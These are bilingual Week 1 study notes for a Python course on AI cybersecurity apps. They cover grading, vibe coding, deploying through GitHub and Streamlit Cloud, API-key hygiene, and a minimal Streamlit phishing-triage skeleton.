---
title:
  en: "Week 1 · Course Kickoff: Python, Vibe Coding & AI Models for Cyber"
  zh: "第 1 周 · 课程导论：Python、Vibe Coding 与网安 AI 模型"
summary:
  en: "How the course is graded and what you will build; vibe coding and why you still need to read Python; the two-phase app build (local → GitHub → Streamlit Cloud); objects, properties and methods; cyber text problems as classification; AI ⊂ ML ⊂ DL ⊃ Transformer, overfitting, supervised vs unsupervised, and the pretrained → finetuned → compare pipeline."
  zh: "课程怎么评分、最后要做出什么；vibe coding 和「AI 会写代码为什么还要学 Python」；两阶段开发部署（本地 → GitHub → Streamlit Cloud）；对象、属性与方法；把网安文本问题看成分类；AI ⊂ ML ⊂ DL ⊃ Transformer、过拟合、监督 vs 无监督，以及 pretrained → finetuned → compare 流程。"
week: 1
date: 2026-10-30
tags: [Python, Vibe Coding, Streamlit, OOP, NLP, Classification, Fine-tuning, Overfitting]
---
# ISOM 5160 Python Programming for Business Applications — Week 1 复习笔记

**主题：Day 1 Introduction — 课程结构与评分 · Vibe coding & prompting · 为什么还要学 Python · 应用开发部署两阶段（Plan → Structure → Build → Test → Polish UI → GitHub → Streamlit → Share）· OOPL：object.property vs object.method() · 网安里的文本问题 · AI / ML / DL / Transformer · 模型家族 · Overfitting · 监督 vs 无监督 · Finetuned models · Text in → Label out**

> 优先级标注说明（按对作业和期末项目的重要性）：  
> 🔴 **核心** — 直接决定作业 / 项目能不能做出来、讲得清楚  
> 🟡 **需要理解** — 要懂逻辑，做项目和写报告时会用到  
> 🟢 **了解即可** — 背景知识、课务信息
>
> **优先级依据**：  
> ① **这门课没有考试**（Syllabus）：成绩 = 课堂参与 14% + 三次编程作业 15% + **期末项目 71%**（Coding 25、Business / Security / User Requirements 21、Expected Results 15、Docs & Presentation 10）。所以「重点」= 做作业和项目真正用得上的东西；  
> ② **课件自己点题**：p.27 *Later course days deepen the train loop & evaluation*，p.30 *Today's arc: Python → Cyber → NLP → Fine-tune*——今天是整门课的地图，后面每一周都在展开其中一段；  
> ③ **Syllabus 的课题方向**：text-classification tools、phishing email triage、URL risk flags、vulnerability and mitigation assistants、attack detectors——全部是「文本进 → 标签出」，所以第 13–14 节标 🔴；  
> ④ 没有老师板书（Supplementary）。这一周老师只讲了概念，Python 语法在 Lab / 学生 notebook 里练。

> **📌 本笔记里的几种标记**
>
> - **➕ 课外补充** — 课件没写、但做作业 / 项目会用到的背景知识（例如 Streamlit 最小骨架、f-string 写法），优先级按 🟢 处理，但很实用。
> - **💼 业务视角** — 这门课 21% 的分数在「业务 + 安全 + 用户需求」，这类 Callout 讲怎么把技术说成商业语言。
> - 网页版有三个可以点的小实验（str 对象的方法、文本分诊 rules vs pretrained vs finetuned、过拟合曲线）和四组点选练习，打印版会变成等价的表格。

---

## 0. 核心地图（先建立整体框架）

课件的 agenda 是 **tool → domain → capability**（工具 → 领域 → 能力），整门课是一条链：

```
工具：Python（读得懂 AI 写的代码）+ VS Code + HKUST GenAI 模型（vibe coding）
   → 领域：网络安全里的「文本问题」
        钓鱼邮件、风险网址、攻击字符串、NIST 风格的政策文字
        固定规则会漏掉新说法 (Rules hit limits) → 需要「从数据里学」的系统
   → 能力：AI 模型
        AI ⊃ ML（从数据学）⊃ DL（多层神经网络）⊃ Transformer（现代 NLP / GenAI）
        Supervised：有标签 → Classification（text in → label out）★ 本课主线
        Pretrained 模型直接用 → 拿带标签的网安数据 Finetune → Compare 两者
        小心 Overfitting：训练集上很准 ≠ 新数据上很准
   → 做成应用：Phase 1 本地（Plan → Structure → Build → Test）
               Phase 2 上线（Polish UI → GitHub → Streamlit Cloud → Share）
   → 期末：一个部署好的、让「不懂模型的人」也能用的 AI 网安 / 商业应用
```

**一句话抓住本周**：AI 负责起草，你负责读懂、验证、签字 (*AI drafts · you understand, verify, and sign off*)；整门课最后交的是一个**部署上线的文本分类类应用**，今天讲的每个概念都是它的一块零件。



*Today's agenda：Intro → Python → Cyber → AI Models → Lab01（Slide 2）*

---

## 1. 🟡 课程概览、评分与出勤（Slides 4–7 + Syllabus）



*What this course is about：从下往上 Python → Transfer Learning（Fine-tuned Models）→ AI-powered business applications（NLP）→ App Development & Deployment（GitHub + Streamlit Cloud）（Slide 6）*

Slide 6 的金字塔要**从下往上读**——下面一层是上面一层的地基：

| 层（自下而上） | 课件原文                                                                                                             | 中文 / 小白解释        |
| ------- | ---------------------------------------------------------------------------------------------------------------- | ---------------- |
| 1       | **Python programming** — Why Python for deep learning: Readability, Less complexity, Easy to understand the code | 地基：能读懂、能改代码      |
| 2       | **Transfer Learning – Pre-trained models** · Fine-tuned Models                                                   | 不从零训练模型，拿现成的改一改  |
| 3       | **AI-powered business applications** · NLP                                                                       | 把模型包进一个解决业务问题的应用 |
| 4       | **App Development and App Deployment** · GitHub and Streamlit Cloud                                              | 让别人能通过网址用上它      |

### 评分（Slide 7 / Syllabus p.2）



*Assessment / grading（Slide 7）*

| Component                                                 | %  | 怎么评（Syllabus 原文要点）                                                                                  |
| --------------------------------------------------------- | -- | --------------------------------------------------------------------------------------------------- |
| A. Class Participation                                    | 14 | Week 2–8，看 attendance、preparation、engagement、contribution；**光出席不算 active participation**；老师可 ±2% 调整 |
| B. Homework（3 × 5%）                                       | 15 | 三次**个人**编程作业（Week 2、4、6 发），每次是一个商业或网安问题，要写一个 Python 应用解决                                            |
| C. Final Project — Coding                                 | 25 | 正确性和完整性、Python 概念和 package 用得恰当、代码组织与可读性、**robustness 和 error handling**                            |
| D. Final Project — Business, Security & User Requirements | 21 | 问题陈述、目标用户和 stakeholders、功能 / 非功能需求、和业务需求对齐、**约束、风险、伦理、responsible AI**                              |
| E. Final Project — Expected Results                       | 15 | 输出准确且相关、有证据满足需求、**测试与验证**、结果解读、实用价值和局限                                                              |
| F. Final Project — Docs & Presentation                    | 10 | 报告和代码文档、演示、能解释技术和业务决策、每个组员的贡献                                                                       |

> **⚠️ 几条容易丢分的规则**
>
> - 项目**可以一个人或两人一组**，选题要**先和老师讨论**（Slide 7）。
> - **所有组都必须交视频演示**，不交扣项目分 10%；而且**不能用生成式 AI 做视频**（Syllabus）。
> - 迟交：截止后 3 小时内扣 30%，超过 3 小时不收。
> - 课件 Slide 7 写的是 "Business & User Requirements"，Syllabus 写的是 "Business, **Security** and User Requirements"——这是一门网安硕士的课，需求里要写安全。
> - 用了 AI 工具要 **properly acknowledged**（注明）。



*Attendance Policy：2 学分课（8 次课）累计 4 次缺席要退课（记 W）（Slide 5）*

| 出勤规则（Slide 5）                                                                             | 中文             |
| ----------------------------------------------------------------------------------------- | -------------- |
| Attendance at classes is **mandatory**                                                    | 必须出席           |
| 2-credit course (8 lectures)：**FOUR** absences → withdrawal required，transcript 记 **"W"** | 累计 4 次缺席必须退课   |
| **30 minutes late** or more = **absent**                                                  | 迟到 30 分钟算缺席    |
| 缺席要**提前**通知老师和 MScICSM Program Office 并提供证明                                               | 有任何理由的缺席都按上表计算 |

### 课程安排（Syllabus p.3）

| Week | 日期     | 主题                                       | 作业 / 项目                                 |
| ---- | ------ | ---------------------------------------- | --------------------------------------- |
| 1    | 30 Oct | Introduction · Python Basics · **Lab 1** |                                         |
| 2    | 6 Nov  | Python: Data Structure, Packages         | **Homework 1**                          |
| 3    | 13 Nov | Application Deployment · **Lab 2**       |                                         |
| 4    | 20 Nov | Application Development                  | **Homework 2** · Group project released |
| 5    | 27 Nov | Model Finetuning · **Lab 3**             |                                         |
| 6    | 4 Dec  | Model Evaluation                         | **Homework 3**                          |
| 7    | 11 Dec | Cybersecurity Apps                       | Group project due **17:00, 17 Dec（周四）** |
| 8    | 18 Dec | Group Project Presentation               |                                         |

> **💼 精力怎么分**
>
> 71% 在期末项目，而 D（需求，21%）+ E（结果与测试，15%）+ F（文档演示，10%）= 46%，**比 Coding（25%）还多**。代码能跑只是起点：谁在用、解决什么业务 / 安全问题、怎么证明它有效、有什么局限，这些要和代码一样认真写。

---

## 2. 🟢 谁适合这门课、成功的前提（Slides 8–9）



*Important prerequisites for success（Slide 9）*

**Who benefits（Slide 8）** 四类人：

1. 想做 AI 应用 / 模型，**给不熟悉模型的用户用**（*used by other users who need not be familiar with the model*）
2. 想把 **transfer learning** 用到应用开发和部署
3. 想认识 Python 编程的威力
4. 想做 AI 应用让**自己的网安工作更轻松**

**Prerequisites for success（Slide 9）**：Perseverance（坚持）· Learn by doing（*One CANNOT benefit from the course by just reading lecture materials*）· Not scared of programming · Learn by yourself（*because you are programmer and developer*）—— 关键词 **Self-study, perseverance, practice**。

> **💡 小白理解**
>
> 第 1 条是期末项目的隐藏评分标准：你的用户**不懂模型**。所以界面上要说人话（「这封邮件 87% 可能是钓鱼，建议人工确认」），而不是丢一个 logits 数组给他。

---

## 3. 🔴 Vibe Coding 与 Prompting（Slides 10–12、15）



*Vibe coding & prompting（Slide 10）*

**Vibe coding** = 用自然语言描述你想要什么，让 AI 起草代码，你负责审查和测试（*Describe intent in plain language; AI drafts code — you still own the result*）。

| 课件原文（Slide 10）                                            | 中文 / 怎么做               |
| --------------------------------------------------------- | ---------------------- |
| **Start from intent, not syntax**                         | 先说「要做什么」，不要先想语法        |
| **AI drafts · you review and test**                       | AI 写初稿，你审、你测           |
| **Refine prompts; keep goal, data, constraints**          | 改 prompt 时始终带上目标、数据、约束 |
| **Be specific: task, inputs, constraints, format**        | 四要素：任务、输入、约束、输出格式      |
| **Know limits (quota, context); iterate with follow-ups** | 知道额度和上下文长度的限制，用追问一步步改  |

> 黄字：*Always read, test, and understand the code before you ship it.*

> **🎯 一个按四要素写的 prompt（可以直接改来用）**
>
> - **Task**：写一个 Streamlit 应用，让用户贴一封邮件，判断是不是钓鱼邮件。
> - **Inputs**：一段纯文本（邮件正文），可能为空或超过 5,000 字。
> - **Constraints**：用 Hugging Face 上现成的 pretrained 文本分类模型，不训练；Python 3.11；只用 `streamlit` 和 `transformers`；输入为空时给出提示而不是报错。
> - **Format**：只给完整的 `app.py` 和 `requirements.txt`，每个函数上面一行注释说明作用。
>
> 追问示例：「把阈值改成侧边栏滑块，默认 0.5」「解释第 12 行为什么要 `truncation=True`」。

### 🔴 Why learn Python if AI can code?（Slide 12）



*AI drafts → You read → You verify → You sign off（Slide 12）*

> *Vibe coding raises the ceiling — it does not remove the need to understand the code.*

| 课件原文                                                                                                  | 中文 / 小白解释                                   |
| ----------------------------------------------------------------------------------------------------- | ------------------------------------------- |
| **AI is confidently wrong** — Code can run and still be wrong — only a Python reader catches it       | AI 很自信地写错。**代码能跑 ≠ 代码对**，只有读得懂 Python 的人能发现 |
| **Debugging is still yours** — When the assistant loops on a bad fix, you reason about the real error | AI 在一个错误的修法里打转时，要靠你读报错找真正原因                 |
| **You own the judgment** — Business logic and policy fit are your call                                | 业务逻辑、是否符合公司政策，由你判断，不是模型                     |
| **Credibility is personal** — Explaining how a number was produced builds trust                       | 能解释一个数字是怎么算出来的，你的建议才有人信                     |

> **⚠️ 「能跑但是错」的真实例子**
>
> - 忘了括号：`s.upper` 不报错，但得到的是方法本身而不是大写字符串（见第 6 节的小实验）。
> - 阈值写反：`if score < 0.5: label = "phishing"`，程序照样跑，只是把所有钓鱼邮件放行了。
> - 只在训练数据上测：准确率 99%，换一批新邮件就不行（第 11 节 Overfitting）。

### 🟡 AI and the Future of Programming（Slide 15）

| 课件原文                      | 一句话                       |
| ------------------------- | ------------------------- |
| **Enhanced Productivity** | 例行工作从几小时变成几分钟，省下时间给难的部分   |
| **Critical Thinking**     | AI 写代码，「它解决的是不是真正的问题」由你判断 |
| **Complexity Management** | 真实系统仍需要懂架构和质量的人           |
| **AI as a Tool**          | 放大你已有的能力，不能代替你没有的能力       |

> *AI is a tool — skill is knowing when and how to use it.*

### 🟢 HKUST Generative AI API Service（Slide 11 + Lab 1）

学校提供的 GenAI API：在 `hkust.developer.azure-api.net/profile` 拿 API key，在 ITSO 的 *supported models* 页面看有哪些模型。Lab 1 把它接进 VS Code 的 Chat：`Chat: Manage Language Models` → Add Models → **Custom Endpoint** → 组名 "HKUST GenAI Models" → 贴 API key → 选 **Chat Completions**，再在 `Chat: Open Language Models (JSON)` 里贴上模型列表。

> **➕ 课外补充：API key 千万别进 GitHub**
>
> API key 就是一把钥匙，谁拿到都能用你的额度。Phase 2 要把代码 push 到 **公开** 的 GitHub repo，所以：
>
> - 不要把 key 写死在 `app.py` 里；本地放在环境变量或 `.streamlit/secrets.toml`，并把它写进 `.gitignore`。
> - 部署到 Streamlit Cloud 时，在网页后台的 **Secrets** 里填，代码里用 `st.secrets["API_KEY"]` 读。
> - 万一已经 push 上去了：马上在 profile 页面 **Regenerate**，旧 key 作废（删 commit 不够，历史记录里还在）。
>
> 这正好也是项目 D 部分「Security requirements」可以写的一条。

---

## 4. 🔴 应用开发与部署：两个阶段、八步（Slides 13–14）



*Phase 1：Local app first — vibe coding with an AI assistant at every step（Slide 13）*



*Phase 2：Harden the app, then deploy it with GitHub and Streamlit Cloud（Slide 14）*

| 阶段             | 步骤                 | 课件原文                                                                                              | 产出             |
| -------------- | ------------------ | ------------------------------------------------------------------------------------------------- | -------------- |
| **Phase 1 本地** | 1. Plan            | **Project Planning** — Define the goal, sketch the interface, list the features you actually need | 目标、界面草图、功能清单   |
|                | 2. Structure       | **App Structure** — Set up `app.py`, `requirements.txt`, and a clear folder pattern               | 文件结构           |
|                | 3. Build           | **Core Functionality** — Build the essentials first — AI drafts, you review the logic             | 能用的核心功能        |
|                | 4. Test            | **Test Locally** — Try real inputs locally, read the errors, refine with targeted prompts         | 本地跑通           |
| **Phase 2 上线** | 5. Polish UI       | Clearer controls, sensible defaults, feedback the user can act on                                 | 好用的界面          |
|                | 6. GitHub          | Push the app repo (`app.py`, `requirements.txt`); keep the project linkable                       | 公开 repo        |
|                | 7. Streamlit Cloud | Connect the GitHub repo and deploy a public app URL                                               | 公开网址           |
|                | 8. Share & Docs    | Short README, comments, share the live URL; clean run end-to-end                                  | README + 能从头跑通 |

> Phase 1 底部：*Ask the AI to explain every line it writes — you stay responsible for the logic.*  
> Phase 2 底部：*By the end of this phase you will have a deployed working application.*

> **🧠 记忆口诀**
>
> **先本地、后上线；先核心、后好看。** Plan → Structure → Build → Test 是「让它能用」，Polish → GitHub → Streamlit → Share 是「让别人能用」。

> **➕ 课外补充：Streamlit 最小骨架（Week 3 会正式讲）**
>
> ```python
> # app.py
> import streamlit as st
>
> st.title("Phishing Email Triage")
> text = st.text_area("Paste an email")
> threshold = st.slider("Threshold", 0.1, 0.9, 0.5)
>
> if st.button("Check"):
>     if not text.strip():
>         st.warning("Please paste some text first.")
>     else:
>         score = 0.87  # 以后换成模型输出
>         label = "Phishing" if score >= threshold else "OK"
>         st.write(f"{label} · score {score:.2f}")
> ```
>
> ```text
> # requirements.txt —— Streamlit Cloud 按这个文件装依赖，漏一个就部署失败
> streamlit
> ```
>
> 本地运行：`streamlit run app.py`。Streamlit Cloud 就是从你的 GitHub repo 读这两个文件。

*（网页版此处是点选练习：这件事在开发流程的哪一步？（Slides 13–14）；下表是全部题目和答案）*

| 情景                                      | 答案                 | 理由                                                                          |
| --------------------------------------- | ------------------ | --------------------------------------------------------------------------- |
| 列出「钓鱼邮件分诊工具」真正需要的三个功能，画个界面草图            | **1 Plan**         | Define the goal, sketch the interface, list the features you actually need  |
| 建好 app.py、requirements.txt 和 data/ 文件夹  | **2 Structure**    | App Structure：先把文件和文件夹的样子定下来                                                |
| 让 AI 写调用 pretrained 模型的函数，自己逐行看懂逻辑      | **3 Build**        | Core Functionality：先做核心，AI drafts, you review                               |
| 贴进 10 封真实邮件，看报错，用更具体的 prompt 修          | **4 Test**         | Test Locally：真实输入 + 读错误 + targeted prompts                                  |
| 把阈值改成滑块，结果加上「建议人工复核」提示                  | **5 Polish UI**    | Polish UI：clearer controls, sensible defaults, feedback the user can act on |
| 把 app.py 和 requirements.txt push 到 repo | **6 GitHub**       | GitHub：Streamlit Cloud 要从 GitHub repo 读代码                                   |
| 连上 GitHub repo，拿到一个公开的 app 网址           | **7 Streamlit**    | Streamlit Cloud：connect the repo and deploy a public URL                    |
| 写 README、补注释，把网址发给组员从头到尾跑一遍             | **8 Share & Docs** | Share & Docs：short README, comments, clean run end-to-end                   |

---

